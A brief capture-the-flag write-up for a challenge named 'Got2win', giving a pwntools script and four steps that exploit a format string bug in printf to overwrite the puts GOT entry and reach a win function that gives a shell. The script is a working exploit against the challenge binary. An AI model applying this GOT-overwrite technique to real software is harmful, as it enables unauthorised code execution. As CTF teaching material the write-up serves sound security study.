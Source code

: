 ### Got2win

#### TL;DR

Format string bug in echo function lead to puts got overwrite to execute win function

```python
#!/usr/bin/env python3

from pwn import *

e = ELF("./got2win")
#p = remote("34.100.187.70",5555)
p = process("./got2win")
exploit = b"%4199132x" + b"                        %11$lln" + p64(e.got.puts)
p.sendline(exploit)
p.interactive()
```



1)As the binary has partial relro,we can make got overwrites to get RIP control.

2)There is a secure fgets to get user input but the problem occurs is when it prints user input using printf

3)Printf here does not have the format specifiers present so we can use our  own format specifiers to leak and write anywhere.

4)So we overwrite puts got to the win function to get shell.
